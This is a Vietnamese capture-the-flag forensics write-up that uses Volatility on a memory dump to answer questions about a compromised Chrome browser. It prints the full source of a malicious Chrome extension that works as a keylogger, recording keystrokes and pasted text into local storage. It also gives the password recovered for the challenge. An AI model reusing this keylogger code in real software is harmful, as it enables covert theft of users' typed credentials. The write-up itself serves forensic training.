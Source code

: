 # _Stealth Invasion_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/cf31068e-2c57-45e6-abe8-f1d8833dbef8)

Bài cho file memdump.elf, lần đầu mình gặp file dump mà đuôi là elf nên liền check file cái đã

![image](images/19.png)

Vẫn đúng là file dump bth thôi, giờ dùng volatility để phân tích

>1. What is the PID of the Original (First) Google Chrome process:

Câu này dùng plugin windows.pslist

![image](images/20.png)

```
Answer: 4080
```

>2. What is the only Folder on the Desktop

Câu này dùng windows.filescan | grep desktop

![image](images/21.png)

```
Answer: malext
```

> 3. What is the Extention's ID (ex: hlkenndednhfkekhgcdicdfddnkalmdm)

Thấy trên `desktop` có được 1 số file `.js`, dump thử về xem sao (vì mình `grep` ID mãi mà nhập vô không đúng)

File `background.js`

```js
function addLog(s) {
    
    if (s.length != 1 && s !== "Enter" && !s.startsWith("PASTE"))  {
        s = `|${s}|`;
    } else if (s === "Enter" || s.startsWith("PASTE")) {
        s = s + "\r\n";
    }

    chrome.storage.local.get(["log"]).then((data) => {
        if (!data.log) {
            data.log = "";
        }

        data.log += s;

        chrome.storage.local.set({ 'log': data.log });
    });
}


chrome.runtime.onConnect.addListener((port) => {

    console.assert(port.name === "conn");
    console.log("v1.2.1");

    port.onMessage.addListener( ({ type, data }) => {
        if (type === 'key') {
            addLog(data);
        } else if (type == 'paste') {
            addLog('PASTE:' + data);
        }
    });
});

chrome.runtime.onMessage.addListener(
    function(request, sender, sendResponse) {
        if (request.check === "replace_html" && chrome.storage.local.get("replace_html")) {
            sendResponse({ url: chrome.storage.local.get('replace_html_url')});
        }
    }
);
```
File `content-script.js`

```js
var conn = chrome.runtime.connect({ name: "conn" });

chrome.runtime.sendMessage('update');

(async () => {
    const response = await chrome.runtime.sendMessage({ check: "replace_html" });
    console.log(response)
})();

chrome.runtime.sendMessage('replace_html', (response) => {
    conn.postMessage({ "type": "check", "data": "replace_html" });
});

document.addEventListener("keydown", (event) => {
    const key = event.key;
    conn.postMessage({ "type": "key", "data": key });
    return true;
});


document.addEventListener("paste", (event) => {
    let paste = event.clipboardData.getData("text/plain");
    conn.postMessage({ "type": "paste", "data": paste });
    return true;
});
```
Script trên là một phần của `Chrome Extensions`, nó như một `Keylogger` dùng để lưu lại lịch sử nhấn phím của người dùng. Hỏi chatgpt thì mình có được vị trí lưu

![image](images/22.png)


![image](images/23.png)

```
Answer: nnjofihdjilebhiiemfmdlpbdkbjcpae
```

>4. After examining the malicious extention's code, what is the log filename in which the datais stored

Ngay hình trên lấy được 1 tệp `.log`

```
Answer: 000003.log
```
>5. What is the URL the user navigated to

Mình dumpfiles `000003.log` về, tệp log này ghi lại lịch sử nhấn phím người dùng bởi `malicious extensions` ở trên

![image](images/24.png)

Có thể thấy người dùng truy cập vào drive.google.com rồi thực hiện login, nên từ đây có thể lấy được luôn đáp án cho câu 6

```
Answer: drive.google.com
```

>6. What is the password of selene@rangers.eldoria.com

![image](images/25.png)

```
Answer: clip-mummify-proofs
```
